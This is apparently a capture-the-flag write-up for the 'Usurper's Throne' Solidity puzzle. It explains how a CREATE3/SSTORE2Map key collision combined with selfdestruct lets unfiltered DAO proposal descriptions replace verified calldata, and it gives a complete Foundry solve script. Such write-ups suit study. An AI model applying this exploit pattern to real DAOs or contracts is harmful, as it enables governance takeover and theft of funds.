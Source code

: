 ```yaml
---
author: '0xB49bf876BE26435b6fae1Ef42C3c82c5867Fa149'
contributors: ['0xB49bf876BE26435b6fae1Ef42C3c82c5867Fa149']
adapted_from: "https://github.com/chainlight-io/publications/tree/417d1475d3b7057db6e0da2cbaba6104576f3d20/ctf-writeups/curta-cup/Usurper's%20Throne"
---
```


## Overview

This challenge is meant to test a competitors understanding of [`SSTORE2Map`](https://github.com/0xsequence/sstore2/blob/0a28fe61b6e81de9a05b462a24b9f4ba8c70d5b7/contracts/SSTORE2Map.sol). Specifically, why is the stored data [prefixed with a `00` byte](https://github.com/0xsequence/sstore2/blob/0a28fe61b6e81de9a05b462a24b9f4ba8c70d5b7/contracts/SSTORE2Map.sol#L46)? Why is it critical that the stored data cannot be executed?

To make the challenge more interesting, the logic of the [CREATE3](https://github.com/0xsequence/create3) library was also modified to `selfdestruct` the proxy contract, allowing both the proxy contract and (potentially) the data contract to be redeployed.

In this challenge, the map was used to store DAO proposal `calldata` payloads, and were filtered before storing. The DAO also stored proposal descriptions (`string`) in this manner, but in a way that enabled collisions on the map key. As the descriptions were unfiltered, a collision between one proposal's description and another's `calldata` could cause the `calldata` to be modified after verification, allowing filtered methods to be called by the DAO.

## Solving the puzzle

The challenger needs to get the DAO to call two methods: `forgeThrone` and `addUsurper`. The `forgeThrone` call is easy to execute by simply using the DAO as intended. To craft a call to `addUsurper`, you must perform the following steps:

1. Pick a arbitrary, unused proposal ID, say `x`.
2. Construct a proposal with `id = keccak256(x, x)` with payload data beginning with the `forgeThrone` selector (`0x6d2cd781`) that can be self-destructed. To do this, notice that the first byte (`6d`) is a `PUSH14` opcode, meaning that when executed, the first 15 bytes of the proposal will execute as a valid instruction. Simply placing a `selfdestruct` (`0xff`) after this instruction will suffice.
   Execute the payload contract created above, self-destructing it.
3. Execute the payload contract created above, self-destructing it.
4. Create a new proposal with `id = x` with any payload data, but with description equal to the new payload data: `abi.encodeWithSelector(Throne.addUsurper.selector, solver)`. This will recreate the payload contract for proposal `keccak(x, x)`, but with no validation checks.
5. Vote for and execute proposal ID `keccak256(x, x)`.

Check out our solve script below for more details.

```sol fileName="Solve.s.sol"
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console2} from "forge-std/Test.sol";
import {Throne} from "../src/Throne.sol";
import {DAO} from "../src/DAO.sol";

contract Voter {
    constructor(
        DAO dao,
        uint256 id
    ) {
        dao.vote(id);
        assembly {
            selfdestruct(0)
        }
    }
}

bytes32 constant SLOT_KEY_PREFIX = 0x06fccbac10f612a9037c3e903b4f4bd03ffbc103781cbe821d25b33299e50efb;
bytes32 constant KECCAK256_PROXY_CHILD_BYTECODE = 0x648b59bcbb41c37892d3b820522dc8b8c275316bb020f043a9068f607abeb810;

function addressOf(address addr, bytes32 _salt) pure returns (address) {
    address proxy = address(
      uint160(
        uint256(
          keccak256(
            abi.encodePacked(
              hex'ff',
              addr,
              _salt,
              KECCAK256_PROXY_CHILD_BYTECODE
            )
          )
        )
      )
    );

    address c = address(
        uint160(
            uint256(
            keccak256(
                abi.encodePacked(
                hex"d6_94",
                proxy,
                hex"01"
                )
            )
            )
        )
    );
    return c;
}

function internalKey(bytes32 _key) pure returns (bytes32) {
    // Mutate the key so it doesn't collide
    // if the contract is also using CREATE3 for other things
    return keccak256(abi.encode(SLOT_KEY_PREFIX, _key));
}

contract Solver {
    uint256 constant REQUIRED_VOTES = 3;

    Throne immutable throne;
    DAO immutable dao;
    address immutable solver;
    uint256 immutable solution;

    constructor(Throne _throne, address _solver) {
        throne = _throne;
        dao = throne.dao();
        solver = _solver;
        solution = uint256(keccak256(abi.encode(solver)));
    }

    function createIds(uint256 seed, uint256 count) internal pure returns (uint256[] memory result) {
        result = new uint256[](count);
        for (uint256 i = 0; i < count; i++) {
            seed = uint256(keccak256(abi.encode(seed, seed)));
            result[i] = seed;
        }
    }

    function doVotes(uint256 id) internal {
        for (uint256 i = 0; i < REQUIRED_VOTES-1; i++) {
            new Voter(dao, id);
        }
    }

    function stage1() public {
        uint256[] memory ids = createIds(uint256(keccak256("ChainLight")), 4);

        dao.createProposal(
            ids[3],
            address(throne),
            abi.encodeWithSelector(Throne.forgeThrone.selector, solution),
            ""
        );
        doVotes(ids[3]);
        dao.execute(ids[3]);

        // create data which can be selfdestructed
        bytes memory data = hex"6d2cd7810000000000000000000000ff";
        dao.createProposal(ids[1], address(throne), data, "");

        address dataAddress = addressOf(address(dao), internalKey(bytes32(ids[1])));

        // selfdestruct the data
        (bool success, ) = address(dataAddress).call("");
        require(success);
    }

    function stage2() public {
        uint256[] memory ids = createIds(uint256(keccak256("ChainLight")), 4);

        bytes memory desc = abi.encodeWithSelector(Throne.addUsurper.selector, solver);
        bytes memory data = abi.encodeWithSelector(Throne.forgeThrone.selector);
        dao.createProposal(ids[0], address(throne), data, string(desc));

        doVotes(ids[1]);
        dao.execute(ids[1]);
    }
}

contract Solve is Test {
    Throne throne;
    Solver solver;

    function setUp() public {
        throne = Throne(0x6d353b5FB19d63791FAf8a2e4B5Fa8D32519a8A3);//new Throne();
        stage1();
    }

    function stage1() public {
        address me = 0xB49bf876BE26435b6fae1Ef42C3c82c5867Fa149;
        solver = new Solver(throne, me);
        solver.stage1();
    }

    function stage2() public {
        address me = 0xB49bf876BE26435b6fae1Ef42C3c82c5867Fa149;
        solver.stage2();
        require(throne.verify(throne.generate(me), uint256(keccak256(abi.encode(me)))), "not solved");
    }

    function test() public {
        stage2();
    }
}
```
